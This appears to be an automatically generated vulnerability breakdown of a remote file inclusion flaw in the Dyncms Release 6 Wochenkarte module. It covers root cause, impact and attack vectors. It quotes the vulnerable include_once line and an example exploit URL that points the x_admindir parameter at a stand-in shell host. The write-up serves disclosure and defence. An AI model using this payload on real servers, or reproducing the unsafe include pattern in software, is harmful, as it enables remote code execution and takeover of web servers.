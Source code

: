 Based on the provided content, here's a breakdown of the vulnerability:

**Root Cause:**

*   The vulnerability lies in the `index.php` file of the `Wochenkarte` module within the `0_admin/modules/` directory of Dyncms Release 6.
*   The vulnerable code uses an `include_once()` statement with a variable `$x_admindir` that is controllable by the attacker via a GET parameter.
*   Specifically, the vulnerable line is: `include_once($x_admindir."/modules/".$xmodulname."/frontend/tools.inc.php");`

**Weaknesses/Vulnerabilities Present:**

*   **Remote File Inclusion (RFI):** The primary vulnerability is a Remote File Inclusion. The application is including a file based on a user-supplied URL (`$x_admindir` parameter).

**Impact of Exploitation:**

*   **Arbitrary Code Execution:** By providing a malicious URL in the `x_admindir` parameter, an attacker can force the application to include and execute code from a remote server. This can lead to complete compromise of the web server, data theft, defacement, or other malicious activities.

**Attack Vectors:**

*   **HTTP GET Request:** The attack vector is an HTTP GET request, where the `x_admindir` parameter is manipulated with a malicious URL.
*   The vulnerable URL is identified as: `http://sitename.com/[Script Path]/0_admin/modules/Wochenkarte/frontend/index.php?x_admindir=http://SHELLURL.COM?`

**Required Attacker Capabilities/Position:**

*   **Network Access:** The attacker needs network access to the vulnerable server to send HTTP requests.
*   **Knowledge of Vulnerable Path:** The attacker must know the specific vulnerable path (`/0_admin/modules/Wochenkarte/frontend/index.php`) and parameter (`x_admindir`).
*   **Remote Server:** The attacker needs a remote server to host the malicious code to be included.

**Additional Notes:**

*   The exploit requires the attacker to host a malicious script on their own server, and the target server will then include and execute the script
*   The provided exploit example demonstrates a simple RFI by including code from a URL defined in `SHELLURL.COM`.